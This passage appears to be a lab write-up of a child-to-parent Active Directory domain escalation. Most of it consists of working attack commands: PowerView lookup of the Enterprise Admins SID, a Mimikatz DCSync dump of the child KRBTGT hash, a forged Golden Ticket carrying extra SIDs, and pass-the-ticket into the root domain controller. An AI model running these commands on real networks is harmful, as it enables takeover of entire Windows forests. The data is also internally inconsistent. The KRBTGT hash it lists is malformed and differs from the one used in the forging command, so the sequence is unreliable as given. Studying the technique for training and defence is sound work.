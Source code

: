 `kid.crt.local: S-1-5-21-1675317467-1077841801-2270613548 
enterprise admin: S-1-5-21-1011749309-1128044670-722997229-519 ; 

### ALso we can  use PowerView tool used to obtain the Enterprise Admins group's SID from a Windows-based host
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" \| select distinguishedname,objectsid`

---

**The KRBTGT hash for the child domain: using DCSync Attack**

`mimikatz # lsadump::dcsync /all /csv

### Uses Mimikatz to obtain the KRBTGT account's NT Hash from a Windows-based host.
mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt`

![https://raw.githubusercontent.com/unknown00759/crtimage/main/eatoda/7.png](https://raw.githubusercontent.com/unknown00759/crtimage/main/eatoda/7.png)

At this point, we have gathered the following data points:

- The KRBTGT hash for the child domain: `9f94j4b482771505657411065964d5f`
- The SID for the child domain: `S-1-5-21-1675317467-1077841801-2270613548`
- The name of a target user in the child domain (does not need to exist to create our Golden Ticket!): We’ll choose a fake user: hacker
- The FQDN of the child domain: `KID.CRT.LOCAL`
- The SID of the Enterprise Admins group of the root domain: `S-1-5-21-1011749309-1128044670-722997229-519`

---

### **Execution**

**Creating a Golden Ticket with Mimikatz**

`mimikatz: kerberos::golden /user:Administrator /domain:kid.crt.local /sid:S-1-5-21-1675317467-1077841801-2270613548 /krbtgt:f368f5e16475a8248f50614e9ca0a981 /sids:S-1-5-21-1011749309-1128044670-722997229-519`

![https://raw.githubusercontent.com/unknown00759/crtimage/main/eatoda/8.png](https://raw.githubusercontent.com/unknown00759/crtimage/main/eatoda/8.png)

- Load the ticket to get the shell on root domain DC01

`1

mimikatz: kerberos::ptt ticket.kirbi`

![https://raw.githubusercontent.com/unknown00759/crtimage/main/eatoda/9.png](https://raw.githubusercontent.com/unknown00759/crtimage/main/eatoda/9.png)

- Using **`Enter-PSSession`** to connect to it remotely

![https://raw.githubusercontent.com/unknown00759/crtimage/main/eatoda/10.png](https://raw.githubusercontent.com/unknown00759/crtimage/main/eatoda/10.png)

---
